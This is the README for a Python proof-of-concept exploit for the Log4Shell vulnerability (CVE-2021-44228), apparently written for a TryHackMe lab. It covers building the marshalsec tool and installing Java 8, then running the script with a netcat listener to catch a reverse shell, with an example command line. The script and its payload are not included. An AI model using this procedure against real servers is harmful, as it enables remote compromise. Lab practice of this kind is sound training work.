


# POC for CVE-2021-44228

This python script was created while I was working on the TryHackMe room for [Log4j](https://tryhackme.com/room/solar). While this was created with default variables for this room, I used argparse to make the script versatile for any web based input.  All necessary varaibles can be changed with different options, see -h for more information.


# Setup
Only my script is hosted here, this requires two other downloads to run properly which I will give links for, but setting up the folders the way I did will allow the script to run without much effort. First create a log4j folder (or whatever name you want) then git clone this repo then move the poc.py into /log4j/.

```sh
git clone LINK HERE
```


Next clone [marshalsec](https://github.com/mbechler/marshalsec), in the same directory you just created. And then build it using maven.
```sh
git clone https://github.com/mbechler/marshalsec.git
cd marshalsec
mvn clean package -DskipTests
```


Lastly, you will need to [download](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html) some version of Java 8. For this script, and the default value for -j is 'jdk1.8.0_20'. 

The new directory should look like this when everything is extracted.
```sh
kali@kali-[~/tools/Exploits/log4j]$ls -al
total 338448
drwxr-xr-x 5 kali kali      4096 Dec 14 15:22 .
drwx------ 3 kali kali      4096 Dec 14 14:34 ..
drwxr-xr-x 8 kali kali      4096 Jul 30  2014 jdk1.8.0_20
drwxr-xr-x 5 kali kali      4096 Dec 14 14:40 marshalsec
-rw-r--r-- 1 kali kali      2781 Dec 14 16:02 poc.py
```

After this setup is complete. Note that if you would like or need to use a different version of java this can be done using -j NAME_OF_JAVA_FOLDER.

# Usage

Help Menu





Included in the script is the payload provided in the THM room, change the IP/port to whatever you want to use. 




Start a netcat listener to catch the shell on the port specified in the java_payload.

Start a python web server on port 8000

Example command:
```sh
python3 poc.py -l 10.6.20.239 -i 10.10.64.53 -p 8983 
```

Example output and reverse shell:


